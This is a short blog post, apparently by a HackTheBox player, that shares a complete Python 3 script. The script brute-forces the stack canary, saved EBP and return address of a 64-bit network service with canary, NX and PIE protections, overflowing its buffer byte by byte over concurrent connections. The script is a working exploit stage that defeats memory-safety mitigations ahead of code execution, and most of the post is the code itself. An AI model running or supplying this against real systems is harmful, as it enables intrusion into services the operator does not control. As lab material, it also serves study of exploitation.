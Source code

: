 ```yaml
---
title: Bruteforcing 64 bits binaries with python 3
description: Script made in python 3 to bruteforce Canary, EBP and return address from a 64 bits binary with Stack canary, NX and PIE enabled.
categories: python
author: Xh4H
tags: bruteforce overflow python3 script
---
```


# Introduction
Hello, I wanted to share with you a script made in Python 3 without pwntools (pwntools has a dev3 branch which supports python3).

The following script will bruteforce asynchronously the following addresses:

- Stack canary address
- EBP
- Return address

This has been built to bruteforce 64 bits binaries with the following details:

- The binary establishes a listener in certain address and port (localhost, 1337).
- The binary sends one single line and then expects user input.

Since this process is being done asynchronously, the needed time to extract these 3 addresses is reduced a lot compared to a single threaded-single task bruteforce.

# How to run
There are 3 global variables that need to be modified according to our needs.

**HOST** has to point to a valid and resolvable host, such as localhost, 10.10.10.10, etc.

**PORT** has to point to a valid port, such as 1337, 8006, 5050, etc.

**BUFFER_OVERFLOW_OFFSET** has to contain a numeric offset where the binary being bruteforced crashes by overflowing the buffer. If the binary crashes after 80 characters, this variable will contain that number.

Since this is made for python 3, please run it with `python3`. No command line arguments are required.
# Output
The script will output the latest tested payload, Canary, EBP and return address hexadecimal addresses and time needed to bruteforce:

<div style="text-align:center"><img src="/assets/images/brute-1.png" /></div>

# Script
```py
import asyncio, struct, time

initial_time = time.time()
BUFFER_OVERFLOW_OFFSET = 0x38 # offset at which buffer overflow occurs
HOST = "localhost"
PORT = 1337

class SuccessException(Exception):
	pass

def finished():
	finished_time = time.time()
	total = finished_time - initial_time
	print("Bruteforcing finished, time needed: %d s." % total)

try_order = [0] + [x for x in range(1, 256)][::-1]

def u64(data):
	return struct.unpack('<Q', data)[0]

async def try_char(prepend, char, semaphore):
	async with semaphore:
		reader, writer = await asyncio.open_connection(host=HOST, port=PORT)
		payload	= prepend
		payload += bytes([char])

		await reader.read(52)
		writer.write(payload)

		result = await reader.read(-1)

		writer.close()

		if result:
			exception = SuccessException()
			exception.char = char
			raise exception

async def start():
	semaphore = asyncio.BoundedSemaphore(20)

	prepend = b'A' * BUFFER_OVERFLOW_OFFSET
	for _ in range(16):
		print(prepend)
		futures = [asyncio.ensure_future(try_char(prepend, x, semaphore)) for x in try_order]
		done, pending = await asyncio.wait(futures, return_when=asyncio.FIRST_EXCEPTION)
		for pending_task in pending:
			pending_task.cancel()
		for done_task in done:
			try:
				done_task.result()
			except SuccessException as e:
				prepend += bytes([e.char])
				break

	prepend += bytes([0x62]) # 0x62 specific to the tested binary, can be b''
	for _ in range(7): # in case the above line is b'', change to range(8)
		print(prepend)
		futures = [asyncio.ensure_future(try_char(prepend, x, semaphore)) for x in try_order]
		done, pending = await asyncio.wait(futures, return_when=asyncio.FIRST_EXCEPTION)
		for pending_task in pending:
			pending_task.cancel()
		for done_task in done:
			try:
				done_task.result()
			except SuccessException as e:
				prepend += bytes([e.char])
				break

	canary = u64(prepend[BUFFER_OVERFLOW_OFFSET:BUFFER_OVERFLOW_OFFSET+8])
	ebp = u64(prepend[BUFFER_OVERFLOW_OFFSET+8:BUFFER_OVERFLOW_OFFSET+8+8])
	return_addr = u64(prepend[BUFFER_OVERFLOW_OFFSET+8+8:BUFFER_OVERFLOW_OFFSET+8+8+8])

	print('[*] Canary: 0x%x\n[*] EBP: 0x%x\n[*] ret_addr: 0x%x' % (canary, ebp, return_addr))
	finished()
	

loop = asyncio.get_event_loop()
loop.run_until_complete(start())
```

Props to goeo for his asynchronous skills.

Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>
